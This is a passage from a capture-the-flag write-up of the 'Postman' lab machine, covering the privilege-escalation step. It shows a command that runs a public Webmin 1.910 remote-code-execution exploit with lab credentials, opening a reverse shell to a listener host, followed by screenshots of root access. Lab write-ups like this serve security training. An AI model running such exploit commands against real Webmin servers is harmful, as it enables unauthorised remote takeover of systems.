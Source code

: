 ![dashboard.png](/assets/img/Postman/dashboard.png)

Now that we have valid credentials for Webmin, we can use this [exploit](https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/blob/master/exploit_poc.py) to obtain reverse shell. 

```bash
python3 exploit_poc.py --ip_address=10.10.10.160 --port=10000 --lhost=10.10.14.4 --lport=7007 --user=Matt --pass=computer2008
```

![escalation2.png](/assets/img/Postman/escalation2.png)

![rootShell.png](/assets/img/Postman/rootShell.png)

### Root Flag

![rootFlag.png](/assets/img/Postman/rootFlag.png)
